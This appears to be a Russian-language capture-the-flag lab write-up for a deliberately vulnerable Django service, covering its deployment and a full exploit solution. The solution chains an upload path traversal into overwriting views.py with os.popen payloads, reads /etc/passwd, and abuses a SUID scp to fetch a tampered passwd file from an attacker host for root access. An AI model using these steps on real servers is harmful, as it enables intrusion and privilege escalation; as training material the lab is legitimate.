






# Уязвимость удаленного выполнения кода с повышением привилегий сервиса `WebsiteGuide`

## Сервис WebsiteGuide

Для начала разверните сервис 

##### Установите `docker`

```sh
apt update
apt install docker docker.io
```

##### Соберите образ веб сервера

```sh
cd websiteguide
docker build --no-cache . -t websiteguide
```
##### Запустите контейнер

```sh
docker run -d --restart=always --name=websiteguide -p 8000:80 websiteguide
```

Теперь контент ресурса доступен по http://yourhost:8000

##### Создайте учетные записи пользователей

Для этого перейдите по http://yourhost:8000/admin

Логин: `admin`
Пароль: `4HfWNI4bLJzyr9ocSGGD9rlK19Dw`

После входа перейдите в **Управление пользователями** и создайте нужное количество пользователей группы.

Каждый пользователь может добавлять обычных пользователей (которые не могут блокировать и изменять чужие учетные записи)

Теперь пользователи могут активно создавать свои группы вебсайтов и просматривать чужие. 

## Легенда

В сеть утекли исходники кода приложения - `legend/views.py`

## Решение

Для успешной эксплуатации уязвимости нужно:

##### <u>Увидеть</u> (в слитом `views.py`), что иконки загружаются без проверки имени

```python
def post(self, request):
	...
    save_path = os.path.join(settings.MEDIA_ROOT, 'icon', name)
    ...
```

##### <u>Понять</u>, что можно добавлять и перезаписывать файлы на сервере.

Сделать это можно например так: 

1. Изменим сообщение методе **get** (метод срабатывает при добавлении вебсайта) слитого файла `views.py`, в который в дальнейшем и будем добавлять полезную нагрузку.

   ```python
   #return CustomResponse(
   #    status=status.HTTP_201_CREATED,
   #    msg='Добавлено успешно'
   #)
   
   # меняем на полезную нагрузку
   
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"im a {os.popen('id').read()}"
   )
   ```

2. Теперь нужно перезаписать файл `views.py` на сервере.

   Для этого открывает `burp` и отлавливаем момент передачи файла на сервер:

   

3. Меняем `views.py` на `../../views.py`. Так мы перезапишем файл, поскольку файлы сохраняются в  `/WebsiteGuide/websiteapp/media/icon/`, а файл `views` - в `/WebsiteGuide/websiteapp/`.

> ВАЖНО! Как можно заметить, сервер работает на `Django`, а значит файлы кэшируются по умолчанию. Чтобы исполнялся код, либо должен упасть сервер, либо мы должны перезаписать файл соответствующего кэша на сервере -`/WebsiteGuide/websiteapp/__pycache__/views.cpython-36.pyc`. Первый случай можно имитировать перезагрузкой контейнера. Во втором случае нужно скомпилировать файл `views.py` в кэш с помощью `compileall`:
>
> ```python
> import compileall
> compileall.compile_file('views.py')
> ```

4. После успешной перезаписи получаем:




##### <u>Понять</u>, что на файл `/usr/bin/scp` установлен `suid` бит.

Например, можно использовать `linpeas.sh`

##### <u>Узнать</u> содержимое`/etc/passwd` 

```python
return CustomResponse(
    status=status.HTTP_201_CREATED,
    msg=os.popen('cat /etc/passwd').read()
)
```



##### <u>Перезаписать</u> файл `/etc/passwd` используя `scp`

1. Меняем в`/etc/passwd` последнюю строчку, добавив пользователя `websiteguide` в группу `root`.

2. Сгенерируем ключи `rsa` для дальнейшего использования. Чтобы подключаться без ввода пароля скопируем себе на хост сгенерированный ключ:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('ssh-keygen -t rsa -b 4096 -P "" -f ./id_rsa && cat ./id_rsa.pub').read()
   )
   ```

   И проверяем, что выполнилось без ошибки

   

3. Скопируем публичный ключ и вставим его в файл `~/.ssh/authorized_keys` на своем хосте:

   ```sh
   echo "ssh-rsa AAAAB3N[тут длинная часть ключа]CVsQ== websiteguide@8c2aedce79b2" >> ~/.ssh/authorized_keys
   ```

4. Теперь можно одной командой загрузить нашу полезную нагрузку:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"{os.system('scp -i ./id_rsa your_username@your_ip_addr:/path/to/passwd /etc/passwd')}"
   )
   ```

   Проверяем, что выполнено успешно:

   

5. Проверяем, что пользователь `websiteguide` состоит в группе `root`:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('id').read()
   )
   ```

   

   

##### <u>Выполнять</u> команды от `root`.

Для простоты лучше всего аналогичным образом подключиться по `ssh`, но только теперь сгенерировать ключи на хостовой машине и скопировать их на сервер.

